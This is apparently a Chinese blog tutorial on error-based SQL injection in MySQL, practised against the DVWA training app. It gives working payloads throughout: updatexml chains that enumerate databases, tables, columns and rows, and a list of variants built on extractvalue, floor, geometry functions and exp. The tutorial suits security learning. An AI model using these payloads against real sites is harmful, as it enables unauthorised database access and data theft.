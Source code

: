 ----



**报错注入**



当我们在应用中输入异常数据、或者使用内置函数报错导致SQL语句执行失败时，有的时候web服务器会返回错误信息。

报错注入的本质是

1. 传入的参数中包含了内置函数
2. 内置函数的参数为获取信息的语句
3. 函数执行失败
4. web服务器返回报错

在dvwa中输入`1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) -- `

数据库会将`concat(0x7e,(select user()),0x7e)` 的结果值作为xmlpath,因为找不到这一路径导致报错

![image-20210516221459561](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210516221459561.png)

将concat中的select user() 换成其他的值即可进行报错注入

```mysql
#获取数据库
1' and updatexml(1,concat(0x7e,(select SCHEMA_NAME from information_schema.SCHEMATA limit 1 offset 0),0x7e),1) -- 

#获取数据表
1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where TABLE_SCHEMA='dvwa' limit 1 offset 0),0x7e),1) -- 

#获取列
1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where TABLE_NAME='guestbook' limit 1 offset 1),0x7e),1) -- 

#获取信息
1' and updatexml(1,concat(0x7e,(select comment from dvwa.guestbook limit 1 offset 0),0x7e),1) -- 


```

常用函数以及payload

- floor()  #原理较为复杂,建议研究一下
  
  https://www.cnblogs.com/sfriend/p/11365999.html
  `1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a) --`
- extractvalue()
  `1' and extractvalue(1,concat(0x7e,(select user()),0x7e)) --`
- updatexml()
  `1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --`
- geometrycollection()
  `1' and geometrycollection((select * from(select * from(select user())a)b)) --`
- multipoint()
  `1' and  multipoint((select * from(select * from(select user())a)b)) --`
- polygon()
  `1' and polygon((select * from(select * from(select user())a)b)) --`
- multipolygon()
  `1' and  multipolygon((select * from(select * from(select user())a)b)) --`
- linestring()
  `1' and linestring((select * from(select * from(select user())a)b)) --`
- multilinestring()
  `1' and multilinestring((select * from(select * from(select user())a)b)) --`
- exp()
  `1' and exp(~(select * from(select user())a)) --`
